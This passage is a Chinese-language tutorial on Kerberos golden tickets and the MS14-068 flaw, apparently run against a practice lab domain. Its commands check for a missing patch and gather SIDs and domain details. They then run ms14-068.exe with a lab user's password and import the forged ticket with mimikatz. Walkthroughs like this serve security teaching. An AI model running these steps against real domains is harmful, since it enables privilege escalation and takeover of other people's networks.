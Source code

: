   * 黄金票据
  * 白银票据

### 0x3-1 黄金票据原理：

在 Kerberos 认证中,Client 通过 AS(身份认证服务)认证后,AS 会给 Client 一个Logon Session Key 和
TGT,而 Logon Session Key 并不会保存在 KDC 中，krbtgt 的NTLM Hash 又是固定的,所以只要得到 krbtgt 的
NTLM Hash，就可以伪造 TGT 和Logon Session Key 来进入下一步 Client 与 TGS 的交互。而已有了金票后,就跳过AS
验证,不用验证账户和密码,所以也不担心域管密码修改。

 **特点：** 不需要与 AS 进行交互，需要用户 krbtgt 的 Hash。

在讲黄金票据之前先讲： **MS14-068**

MS14-068是密钥分发中心（KDC）服务中的Windows漏洞。它允许经过身份验证的用户在其Kerberos票证（TGT）中插入任意PAC（表示所有用户权限的结构）。该漏洞位于kdcsvc.dll域控制器的密钥分发中心(KDC)中。用户可以通过呈现具有改变的PAC的Kerberos
TGT来获得票证。

    
    
    # MS14-068.exe   
    https://github.com/abatchy17/WindowsExploits/tree/master/MS14-068  
    

先查看是否打补丁(KB3011780)来判断是否存在漏洞

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220220001712.png)

收集域成员的SID与域管账号及域名称：

    
    
    whoami /all   
    whoami /user #只单独查询SID  
      
    net time #获取域管账号  
    net config workstation #获取域信息  
    nltest /dsgetdc:GOD #获取域管信息  
      
    ms14-068.exe -u 域成员名@域名 -p 域成员密码 -s 域成员 sid -d 域控制器地址  
    

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220220001713.png)![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220220001714.png)![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220220001715.png)![]()

    
    
    ms14-068.exe -u liukaifeng01@god.org -p hongrisec@2020 -s S-1-5-21-2952760202-1353902439-2381784089-1000 -d OWA.god.org  
    

这里用的是别的环境

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220220001716.png)

在票据未导入前，是无法查看域控的C盘，我们可以使用mimikatz来导入票据

    
    
    kerberos::purge  #清空票据  
    kerberos::ptc 票据文件地址 #导入票据  
    kerberos::list #查看票据  
    